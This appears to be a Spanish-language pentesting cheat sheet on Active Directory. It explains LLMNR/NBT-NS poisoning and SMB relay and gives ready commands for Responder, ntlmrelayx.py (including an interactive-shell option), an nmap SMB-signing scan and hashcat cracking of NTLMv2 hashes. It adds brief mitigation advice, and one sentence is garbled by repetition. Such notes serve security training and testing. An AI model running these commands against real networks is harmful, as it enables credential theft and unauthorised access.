

# Active Directory

1. [Componentes importantes](#componentes-importantes)
2. [Responder](#responder)
  - [Crackear hashes](#crackear-hashes)

## Componentes importantes

LLMNR: anteriormente NBT-NS, se usa para resolver hosts cuando el DNS falla, el problema que tiene es que cuando se responde a este servicio, devuelve el usuario y hash (NTLMv2), se recomienda desactivarlo, o en caso de no poder, habilitar Network Access Control y asegurarse de la calidad de contraseñas.lo, o en caso de no poder, habilitar Network Access Control y asegurarse de la calidad de contraseñas.


SMB-Relay: en vez de crackear hashes, se pueden redireccionar esos hashes a otras máquinas para potencialmente ganar acceso, esto requiere que no sea requerido firmado SMB (SMB signing) y que las credenciales tengan permisos de administrador en la máquina.

## Responder
LLMNR poisoning:
```bash
responder -I interfaz -rdw -v
```

SMB Relay: (en /etc/responder/Responder.conf -> SMB = Off, HTTP = Off)
```bash
responder -I interfaz -rdw -v
ntlmrelayx.py -tf targets.txt -smb2support
# si se le agrega -i se puede intentar obtener una shell interactiva
```
Para identificar las máquinas con SMB signing deshabilitado podemos correr el siguiente escaneo con nmap:
```bash
nmap --script=smb2-security-mode.nse -p445 CIDR
```

### Crackear hashes
hashcat:
```bash
hashcat -m 5600 hashes.txt wordlist.txt
```

